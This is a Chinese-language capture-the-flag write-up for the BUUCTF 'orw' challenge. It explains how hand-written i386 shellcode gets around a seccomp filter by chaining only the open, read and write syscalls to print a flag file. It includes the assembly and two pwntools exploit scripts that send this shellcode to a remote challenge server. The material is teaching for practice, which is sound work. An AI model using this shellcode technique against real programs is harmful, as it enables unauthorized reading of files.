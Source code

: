 ### SysCall 绕过 Prctl Seccomp

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d8e78188c538a9b5c018dc.png)

直接执行用户输入

![](https://pic1.imgdb.cn/item/67d8e7ab88c538a9b5c018f1.png)

`prctl seccomp` 相当于内核中的一种安全机制，正常情况下，程序可以使用所有的 `syscall`

但是当劫持程序流程之后通过 `exeve` 来呼叫 `syscall` 得到 shell 时 `seccomp` 便排上了用场

他可以过滤掉某些 `syscall`，只允许使用部分 `syscall`

本题系统内核只允许使用 `sys_open，sys_read，sys_write`

![](https://pic1.imgdb.cn/item/67d8e7d088c538a9b5c0190b.png)

通过 open 函数打开当前目录下的 flag 文件

在文件读写之前，我们必须先打开文件

从应用程序的角度来看，这是通过标准库的 open 函数完成的，该函数返回一个文件描述符

内核中是由系统调用 `sys_open()` 函数完成

```shell
    # 第一部分：实现
    char*file='flag';
    sys_open(file,0,0);
 
    xor ecx,ecx;
    mov eax,0x5;     # eax = sys_open
    push ecx;        # 字符串结尾"\00"
    push 0x67616c66; # "flag字符串的16进制表示，由于小端序，所以是从右往左"
    mov ebx,esp;     # ebx = const char __user *filename
    xor edx,edx;     # edx  = int mode 设定权限的
    int 0x80;
```

利用 read 函数读取文件中的数据

```shell
    # 第二部分：实现
    sys_read(3,file,0x30);
 
    mov eax,0x3; # eax = sys_read
    mov ecx,ebx; # ecx = char __user *buf 缓冲区，读出的数据-->也就是读“flag”
    mov ebx,0x3; # ebx = unsigned int fd = 3 文件描述符
    mov dl,0x30; # edx = size_t count 对应字节数
    int 0x80;
```

利用 write 函数将文件中的数据打印到屏幕上

```shell
    # 第三部分：实现
    sys_write(1,file,0x30);
 
    mov eax,0x4; # eax = sys_write
    mov bl,0x1;  # ebx = unsigned int fd = 1
    mov edx,0x30 # edx = size_t count
    int 0x80;
```

```python
from pwn import *

p = remote('node5.buuoj.cn',29475)

context(log_level = 'debug', arch = 'i386', os = 'linux')

shellcode=""
shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; mov ebx,esp;xor edx,edx;int 0x80;')
shellcode += asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
shellcode += asm('mov eax,0x4;mov bl,0x1;mov edx,0x30;int 0x80;')

recv = p.recvuntil(':')
p.sendline(shellcode)
print(p.recv(100))
```

还可以利用 shellcraft

```python
from pwn import *

r = remote('node5.buuoj.cn',29475)

elf = ELF('orw')

shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read('eax','esp',100)
shellcode += shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)

r.sendline(shellcode)
r.interactive()
```

